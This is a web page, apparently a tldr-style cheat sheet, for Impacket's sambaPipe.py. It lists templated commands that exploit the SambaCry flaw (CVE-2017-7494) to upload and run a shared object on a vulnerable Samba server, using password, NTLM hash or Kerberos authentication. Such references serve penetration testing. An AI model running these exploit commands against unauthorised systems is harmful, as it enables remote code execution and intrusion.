 ```yaml
---
title: "Samba Exploit - RCE with SambaCry | Free DevTools"
name: sambapipe.py
path: /freedevtools/tldr/common/sambapipe.py
canonical: "https://hexmos.com/freedevtools/tldr/common/sambapipe.py/"
description: "Exploit SambaCry vulnerabilities with sambaPipe.py. Achieve Remote Code Execution (RCE) on vulnerable Samba servers using shared object (SO) files. Free online tool, no registration required."
category: common
keywords:
- Samba exploit
- SambaCry exploit
- RCE exploit
- Remote Code Execution
- SMB vulnerability
- Shared object upload
- Linux exploit
- Network penetration testing
- CVE-2017-7494
- Impacket
features:
- Exploit SambaCry vulnerability for RCE
- Upload shared object files to vulnerable Samba servers
- Authenticate with NTLM hashes for exploitation
- Support Kerberos authentication for targeted exploitation
- Customize SMB connection port during exploitation
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# sambaPipe.py

> Exploit CVE-2017-7494 (SambaCry) to upload and load a shared object (SO) file on a vulnerable Samba server for remote code execution.
> More information: <https://github.com/fortra/impacket>.

- Upload and load a shared object file on a vulnerable Samba server:

`sambaPipe.py -so {{path/to/file.so}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Authenticate using NTLM hashes instead of a password:

`sambaPipe.py -so {{path/to/file.so}} -hashes {{LM_HASH:NT_HASH}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Use Kerberos authentication for the target:

`sambaPipe.py -so {{path/to/file.so}} -k -no-pass {{domain}}/{{username}}:{{password}}@{{target}}`

- Specify a domain controller IP for authentication:

`sambaPipe.py -so {{path/to/file.so}} -dc-ip {{dc_ip}} {{domain}}/{{username}}:{{password}}@{{target}}`

- Use a custom port for the SMB connection:

`sambaPipe.py -so {{path/to/file.so}} -port {{port}} {{domain}}/{{username}}:{{password}}@{{target}}`
